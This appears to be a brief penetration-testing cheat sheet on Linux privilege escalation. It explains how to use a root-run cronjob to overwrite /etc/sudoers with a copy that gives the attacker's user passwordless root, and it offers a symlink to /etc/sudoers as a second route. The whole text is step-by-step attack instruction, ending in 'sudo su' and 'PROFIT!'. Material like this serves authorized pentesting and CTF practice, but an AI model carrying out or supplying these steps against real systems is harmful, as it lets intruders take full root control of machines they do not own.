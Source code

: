 ### Use cases:

### If a cronjob running as root exists that can overwrite a file within the file system, one file we can abuse is the sudoers file.

#### STEPS:

#### 1) Attacking machine: sudo cp /etc/sudoers .

#### 2) Attacking machine: Give the current user you already owned sudo privileges for all commands like:

#### USER  ALL=(ALL:ALL) ALL

#### or

#### USER ALL=(ALL:ALL) NOPASSWD:ALL

#### 3) According to the cronjob at the time, use it to transfer the sudoers file from the attacking machine to the target machine, overwriting the target's /etc/sudoers file with your own modified file.

#### 4) sudo su

#### 5) PROFIT!

### Alternate method to exploit this: symlinks

#### Command:

 - ln -s /etc/sudoers /home/USER/sudoers

### Then, if there is a misconfiguration that enables our user to give permissions to arbitrary files, then we can edit the sudoers file to give our user rights to execute ANYTHING without password as root via sudo
